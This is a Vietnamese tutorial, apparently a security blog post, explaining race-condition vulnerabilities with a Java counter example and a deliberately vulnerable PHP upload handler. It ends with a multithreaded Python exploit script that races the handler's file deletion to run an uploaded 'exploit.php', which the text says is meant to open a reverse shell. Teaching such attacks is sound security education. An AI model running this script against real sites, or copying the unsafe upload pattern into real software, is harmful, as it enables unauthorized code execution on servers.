 Xin chào các bạn đây là mục mà mình sẽ chia sẻ về Race-conditions
Trước mình có làm 1 bài trong BKSEC rồi nhưng mà lần này thì kĩ hơn nhá ^^


# Race-conditions là gì ?
“Race condition xảy ra khi hai hoặc nhiều tiến trình cùng truy cập vào một tài nguyên và thực hiện các thao tác trên tài nguyên đó mà không được đồng bộ hóa đúng cách. Khi đó, kết quả của các thao tác này có thể không đúng hoặc không như mong đợi.”
ĐÂY khái niệm mình đã tham khảo được trong page của VNPT Sec
hiểu nôm na là bình thường trang web sẽ có một luồng xử lí riêng cho mình nếu mà developer không để ý mà để một tiến trình khác thực hiền khi tiến trình này chưa thực hiện xong thì có thể dẫn đến sai kết quả hoặc nghiêm trọng hơn để có thể nhanh hơn thì bạn bắt buộc phải viết tool(script) rồi vì bạn không thể nhanh hơn máy tính về khoản này đúng không ^^

Đây là một ví dụ code để các bạn hiểu rõ hơn
Nguồn : VNPT Cyber :<
<code>
public class Main {
public static void main(String[] args) {
Counter counter = new Counter();
Thread thread1 = new Thread(() -> {
for (int i = 0; i < 1000; i++) {
counter.increment();
}
});
Thread thread2 = new Thread(() -> {
for (int i = 0; i < 1000; i++) {
counter.increment();
}
});
thread1.start();
thread2.start();
try {
thread1.join();
thread2.join();
} catch (InterruptedException e) {
e.printStackTrace();
}
System.out.println(“Count: ” + counter.getCount());
}
}
class Counter {
private int count = 0;
public void increment() {
count++;
}
public int getCount() {
return count;
}
}
</code>
![Alt text](image.png)
-- Có một vài phương pháp để tránh Race-condition là sử dụng khóa lock để đảm bảo rằng chỉ có một tiến trình có thể truy cập vào tài nguyên ở cùng một thời điểm và các biến đồng bộ để đảm bảo luồng đúng,...

<code>
<?php
session_start();
function is_malware($file_path)
{
//Kiểm tra xem nội dung file có phù hợp, có bị chứa mã độc…
}
function is_image($path, $ext)
{
//Kiểm tra có đúng là file ảnh hay không?
}
if (isset($_FILES) && !empty($_FILES)) {
$uploadpath = “tmp/”;
$ext = pathinfo($_FILES[“files”][“name”], PATHINFO_EXTENSION);
$filename = basename($_FILES[“files”][“name”], “.” . $ext);
$timestamp = time();
$new_name = $filename . ‘_’ . $timestamp . ‘.’ . $ext;
$upload_dir = $uploadpath . $new_name;
if ($_FILES[‘files’][‘size’] <= 10485760) {
move_uploaded_file($_FILES[“files”][“tmp_name”], $upload_dir);
}
else {
echo $error2 = “Kích thước file lớn hơn mức cho phép”;
}
if (is_image($upload_dir, $ext) && !is_malware($upload_dir)){
$_SESSION[‘context’] = $success;
}
else {
$_SESSION[‘context’] = $error;
}
unlink($upload_dir);
}
?>
</code>

## đây là code demo cơ bản
giải thích: khi mà upload lên đổi tên file vì này là white-box nên mình có thể biết trước được file tạo ra kiểm tra file xem có trai quy didnjj hay không là dùng hàm unlink để xóa file đó đi
-- Vậy nếu mình truy cập vào trong file đó trước khi xóa thì sao nhỉ

## Cách thức khai thác là nhanh hơn máy tính mà nhanh hơn thì dùng máy tính thoi &&
- Nếu upload hợp lệ thì trả thông tin của ảnh và file name
- Nếu không hợp lệ báo lỗi -> xóa file
Vì vậy mình sẽ dùng intruder của burp + python để tấn công trước khi xóa file :>
<code>
import time
import requests
from multiprocessing.dummy import Pool as ThreadPool

current_timestamp = int(time.time())
new_timestamp = current_timestamp + 5
file_name = “exploit.php”
print(new_timestamp)
proxies = {“http”:”127.0.0.1:8080″,”https”:”127.0.0.1:8080″}
def get(i):
while True:

with open(file_name, “rb”) as file:

response = requests.post(“http://[URL]/”, files={“files”: file}, proxies=proxies)

download_path = f”/tmp/exploit_{new_timestamp}.php”
download_url_with_timestamp = f”http://[URL]{download_path}”
response = requests.get(download_url_with_timestamp, proxies=proxies)

pool = ThreadPool(50)
result = pool.map_async( get, (range(50)) ).get(0xffff)
</code>

-- ở đây tăng time lên hơn 5s để đảm bảo file còn tồn tại 
-- tên file name upload là exploit.php
-- Định nghĩa một proxies để sử dụng proxy ở địa chỉ “127.0.0.1:8080” cho request HTTP và HTTPS (xem log bằng Burp suite)
-- Định nghĩa một hàm get(i) để thực hiện quá trình truy cập file nhằm kích hoạt revershell
Trong vòng lặp, file “exploit.php” được mở để đọc dữ liệu dưới dạng binary ("rb").
-- Sử dụng thư viện requests, gửi một yêu cầu POST đến URL mục  tiêu với file được đính kèm trong phần body
-- Định nghĩa đường dẫn download_path để truy cập file, với tên file là "new_timestamp" (vd: “/tmp/exploit_1622025632.php”).
-- Sử dụng requests để gửi một yêu cầu GET đến URL đã định nghĩa
Quá trình lặp lại các bước và sẽ tiếp tục cho đến khi kết thúc chương trình.

Nguồn : sec.vpnt.vn :3

Ngoài ra có thể cài extensions của burp-pro có turbo intruder nha
Đọc thêm
<a href="https://viblo.asia/p/testing-for-race-condition-Yym40yoKJ91" >

